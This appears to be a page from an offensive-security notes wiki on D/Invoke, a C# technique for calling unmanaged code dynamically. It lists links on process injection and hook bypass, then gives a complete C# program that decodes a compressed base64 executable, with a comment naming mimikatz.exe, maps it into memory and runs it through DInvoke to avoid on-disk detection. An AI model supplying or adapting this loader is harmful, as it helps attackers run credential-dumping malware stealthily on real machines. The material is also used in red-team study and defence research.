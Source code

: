 ```yaml
---
description: Dynamic Invocation. Acts as a replacement for PInvoke to dynamically invoke unmanaged code from memory in C#
---
```


# D/Invoke

* [https://thewover.github.io/Dynamic-Invoke/](https://thewover.github.io/Dynamic-Invoke/)
* [https://github.com/TheWover/DInvoke](https://github.com/TheWover/DInvoke)
* [https://web.archive.org/web/20210601171512/https://rastamouse.me/blog/process-injection-dinvoke/](https://web.archive.org/web/20210601171512/https://rastamouse.me/blog/process-injection-dinvoke/)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/Dinvoke_CreateRemoteThread.cs](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/Dinvoke_CreateRemoteThread.cs)
* [https://blog.nviso.eu/2020/11/20/dynamic-invocation-in-net-to-bypass-hooks/](https://blog.nviso.eu/2020/11/20/dynamic-invocation-in-net-to-bypass-hooks/)
* [https://offensivedefence.co.uk/posts/dinvoke-syscalls/](https://offensivedefence.co.uk/posts/dinvoke-syscalls/)
* [https://rastamouse.me/d-invoke-baguette/](https://rastamouse.me/d-invoke-baguette/)
* [https://github.com/rasta-mouse/DInvoke/](https://github.com/rasta-mouse/DInvoke/)
* [https://dinvoke.net/](https://dinvoke.net/)




## CallMappedPEModule

- [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/PE_Loader_DInvoke_ManualMap.cs](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/PE_Loader_DInvoke_ManualMap.cs)

{% code title="DInvokePE.cs" %}
```csharp
using System;
using System.IO;
using System.IO.Compression;

namespace DInvokePE
{
    class Program
    {
        public static byte[] Compress(byte[] data)
        {
            MemoryStream output = new MemoryStream();
            using (DeflateStream dstream = new DeflateStream(output, CompressionLevel.Optimal))
                dstream.Write(data, 0, data.Length);

            return output.ToArray();
        }

        public static byte[] Decompress(byte[] data)
        {
            MemoryStream input = new MemoryStream(data);
            MemoryStream output = new MemoryStream();
            using (DeflateStream dstream = new DeflateStream(input, CompressionMode.Decompress))
                dstream.CopyTo(output);

            return output.ToArray();
        }

        static void Main(string[] args)
        {
            /*
            var rawBytes = File.ReadAllBytes(@"C:\Users\snovvcrash\Desktop\mimikatz.exe");
            var compressed = Compress(rawBytes);
            var compressedB64 = Convert.ToBase64String(compressed);
            */

            var compressedB64 = Convert.FromBase64String("BASE64_EXE");
            var rawBytes = Decompress(compressedB64);
            DInvoke.Data.PE.PE_MANUAL_MAP map = DInvoke.ManualMap.Map.MapModuleToMemory(rawBytes);
            DInvoke.DynamicInvoke.Generic.CallMappedPEModule(map.PEINFO, map.ModuleBase);
            Console.ReadLine();
        }
    }
}
```
{% endcode %}
